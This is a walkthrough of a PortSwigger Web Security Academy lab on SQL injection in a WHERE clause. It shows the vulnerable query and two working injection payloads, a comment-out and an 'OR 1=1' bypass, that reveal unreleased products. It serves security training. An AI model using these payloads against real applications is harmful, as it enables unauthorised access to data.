

# SQL Injection in WHERE Clause -- Retrieve Hidden Data

This write-up is part of my walk-through series for **PortSwigger Web
Security Academy**.

-   **Lab:** SQL injection vulnerability in WHERE clause allowing
    retrieval of hidden data
-   **Link:**
    https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data
-   **Difficulty:** *Apprentice*

------------------------------------------------------------------------

## Lab Description


The application uses the following SQL query:

``` sql
SELECT * FROM products 
WHERE category = '<PARAM>' AND released = 1;
```

The `category` value is taken directly from the URL parameter:

    /filter?category=Gifts

The goal is to retrieve **unreleased (hidden)** products by exploiting
SQL injection.

------------------------------------------------------------------------

## 1. Baseline

Choosing a normal category, for example:

    /filter?category=Gifts

------------------------------------------------------------------------

## 2. Ignoring the `released = 1` Condition

Payload:

    Gifts'--

Query:

``` sql
SELECT * FROM products 
WHERE category = 'Gifts'--' AND released = 1;
```

This reveals **4 products**, including unreleased ones.

------------------------------------------------------------------------

## 3. Show All Products

Payload:

    Gifts' OR 1=1--

Query:

``` sql
SELECT * FROM products
WHERE category = 'Gifts' OR 1=1 -- ' AND released = 1;
```

Displays **all rows**.





------------------------------------------------------------------------

## Final Result

✔ Hidden products retrieved\
✔ Category filter bypassed\
✔ Release filter bypassed
